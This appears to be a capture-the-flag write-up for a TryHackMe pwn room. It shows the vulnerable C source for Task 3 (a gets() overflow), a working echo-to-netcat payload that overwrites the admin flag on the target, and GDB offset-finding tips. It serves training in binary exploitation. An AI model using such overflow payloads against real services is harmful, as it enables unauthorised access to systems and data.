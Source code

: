 # TryPwnMe - One

https://tryhackme.com/r/room/trypwnmeone, the fact that this is 'one' sounds like a threat. Rated medium, but its really a collection of easy-level pwn exercises.

Task 1 and 2 were an intro and provided a link to download the executables for the later tasks, which were also available on the Attack box. For pwn exercises mimicing the protections in place on the target machine (or more accurately the lack of protections) can sometimes be a challenge, but it wasn't too much of a problem here.

The first four actuall challenges can be solved with just `echo` and `cat`, as they require no interaction with the target (e.g. no reading and processing of content back), while the last three were solved with pwntools.

## Task 3

Code provided:

```c
int main(){
    setup();
    banner();
    int admin = 0;
    char buf[0x10];

    puts("PLease go ahead and leave a comment :");
    gets(buf);

    if (admin){
        const char* filename = "flag.txt";
        FILE* file = fopen(filename, "r");
        char ch;
        while ((ch = fgetc(file)) != EOF) {
            putchar(ch);
    }
    fclose(file);
    }

    else{
        puts("Bye bye\n");
        exit(1);
    }
}
```

TLDR: the admin variable needs to be changed from `0x0` to `0x1`, and there is a basic overflow out of a 16 byte buffer (`0x10`). This can be solved with the following command:

```bash
echo -e "AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEE\x1\x1\x1\x1\x1\x1\x1\x1" | nc [TARGETIP] 9003
```
Note I use four byte blocks of characters like A, B, C etc here and in some later challenges. With GDB, submitting payloads like this (via `r < <(echo "whatever)`) will, when the program segfaults because you overrode the return value, show the bytes that were bad, e.g. 43434343 indicates CCCC, giving you the amount of padding required. For the challenge above though, I used GDB to view the stack, and find what offset was being compared in that `if (admin){` call, then overflowed with more and more data until I could see `0x0` turned to `F`. It could have also been done just by overflowing with like a hundred \x1's, e.g. `echo -e "\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1"`.
